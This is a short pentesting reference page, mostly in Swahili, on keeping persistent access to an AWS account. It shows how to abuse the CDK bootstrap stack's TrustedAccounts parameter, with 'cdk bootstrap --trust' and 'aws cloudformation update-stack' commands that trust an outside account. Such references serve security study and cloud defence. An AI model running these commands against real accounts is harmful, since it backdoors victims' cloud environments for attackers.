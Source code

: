 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Kwa maelezo zaidi, angalia:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

The AWS CDK inaweka stack ya CFN iitwayo `CDKToolkit`. Stack hii inaunga mkono parameter `TrustedAccounts` ambayo inaruhusu akaunti za nje ku-deploy miradi ya CDK ndani ya akaunti ya mwathiriwa. Mshambuliaji anaweza kutumia hili vibaya kujipa ufikiaji wa kudumu kwenye akaunti ya mwathiriwa, ama kwa kutumia AWS cli ku-redeploy stack kwa vigezo, au kwa kutumia AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
